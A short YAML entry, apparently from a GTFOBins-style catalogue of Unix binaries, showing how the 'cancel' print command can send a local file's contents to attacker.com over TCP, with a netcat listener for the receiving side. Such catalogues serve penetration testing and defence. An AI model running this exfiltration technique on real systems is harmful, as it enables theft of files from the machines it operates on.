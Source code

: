   file-upload:
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        cancel -u "$(cat $LFILE)" -h $RHOST:$RPORT
---

